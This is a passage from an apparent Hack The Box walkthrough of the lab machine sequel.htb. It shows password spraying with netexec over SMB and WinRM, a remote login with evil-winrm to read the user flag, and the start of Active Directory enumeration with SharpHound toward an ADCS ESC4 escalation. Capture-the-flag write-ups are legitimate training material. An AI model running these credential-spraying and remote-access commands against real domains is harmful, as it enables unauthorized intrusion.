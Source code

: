 ```bash
nxc smb 10.10.11.51 -u loot/report/users.txt -p WqSZAF6CysDQbGb3 --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
```

The password works for both the `sql_svc` user and the `ryan` user. Given the open WinRM port (tcp/5985), we can try the same thing with this protocol instead to find that `ryan` can connect to the machine. 

```bash
nxc winrm 10.10.11.51 -u loot/report/users.txt -p WqSZAF6CysDQbGb3 --continue-on-success
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
...
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
...
```

We can now use `evil-winrm` to get the user flag. 

```bash
evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
```

```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ..
*Evil-WinRM* PS C:\Users\ryan> cd Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
```

## Root exploit

At this point, we need a bit more information on the machine. Normally I would use `BloodHound.py` and ingest the data into `BloodHound` to get a better view of what's going on, but for some reason it does not show the path that we need to take to advance (foreshadowing the `ADCSESC4` exploit). Instead, we will upload `SharpHound.exe` with `evil-winrm` and download the data back. 

```bash
evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
```
